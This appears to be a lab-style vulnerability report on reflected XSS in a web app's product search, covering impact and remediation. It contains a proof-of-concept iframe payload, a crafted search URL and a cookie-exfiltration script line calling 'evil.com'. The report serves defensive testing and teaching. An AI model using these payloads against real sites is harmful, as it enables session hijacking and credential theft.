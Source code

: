 
**Category:**  #a3_injection
## Finding  
The **product search functionality** is vulnerable to **reflected Cross-Site Scripting (XSS)**. User-supplied input is not sanitized or encoded before being reflected back into the HTML response. This allows attackers to inject arbitrary JavaScript code.  

### Proof of Concept (PoC) Payload  
```html
<iframe src="javascript:alert('XSS')">
```

When this payload is submitted through the search field, it is executed by the browser, showing that JavaScript injection is possible.  
![[Pasted image 20250907154833.png]]
## Impact  
- **Account compromise**: An attacker could steal session cookies or JWT tokens.  
- **Phishing**: The attacker could craft malicious pop-ups or redirects to steal user credentials.  
- **Privilege escalation**: If an admin user is targeted, the attacker may gain administrative access.  
- **Defacement**: Injected scripts could modify the appearance of the application.  
**Severity:** **High**
## Attack Scenarios  
1. An attacker embeds a malicious payload into a search URL and tricks a victim into clicking it.  
   Example:  
   ``http://localhost:3000/#/search?q=<iframe src=javascript:alert('lol')>``  

2. More advanced payloads could exfiltrate cookies or data:  
   ``<script>fetch('https://evil.com/steal?c='+document.cookie)</script>``  

3. With the lack of a strict Content-Security-Policy (CSP), the attacker can load external scripts, leading to **full takeover of the victim’s session**.  

## Recommendation  
- **Input Validation**: Reject unexpected characters and apply a whitelist approach to input fields.  
- **Output Encoding**: Encode all user input before rendering in the DOM (e.g., `&lt;` for `<`).  
- **Content Security Policy (CSP)**: Apply a strict CSP that disallows inline scripts and restricts sources.  
- **Testing**: Regularly test with automated tools (e.g., OWASP ZAP, Burp Suite) and manual payloads.  

